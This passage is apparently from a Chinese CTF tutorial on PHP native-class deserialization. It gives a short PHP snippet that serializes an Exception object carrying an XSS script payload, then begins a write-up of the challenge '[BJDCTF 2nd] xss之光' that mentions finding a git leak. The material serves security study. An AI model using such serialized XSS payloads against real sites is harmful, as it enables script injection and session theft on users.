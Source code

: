 和 Error 类类似，但是可以在 Php5 版本下使用

```bash
<?php
$a=new Exception("<script>alert('xss')</script>");
echo urlencode(serialize($a));
```

[![](assets/1708675446-0019151153d5964c30b0d169e3775c25.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121054-5fa06e88-d138-1.png)

### 例题

**\[BJDCTF 2nd\]xss 之光**

利用 Buu 的靶机，打开 BP 扫描发现有 git 泄露

[![](assets/1708675446-137ae7101177c1acd17baf0b709ce7f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121100-62ccfffe-d138-1.png)
